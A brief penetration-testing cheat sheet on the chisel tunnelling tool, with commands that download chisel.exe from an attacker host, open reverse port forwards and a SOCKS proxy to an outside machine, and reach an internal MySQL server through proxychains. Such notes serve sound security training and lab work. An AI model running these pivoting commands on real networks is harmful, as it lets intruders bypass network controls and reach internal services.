 https://github.com/jpillora/chisel/releases

![[chisel.png]]


```powershell
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
# Server
chisel server --reverse --socks5
# Server on Custom Port
chisel server --reverse --port 9001
# Client
chisel client 10.10.16.48:8080 R:8200:localhost:8200

chisel client 10.10.16.48:9001 R:8200:localhost:8200
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/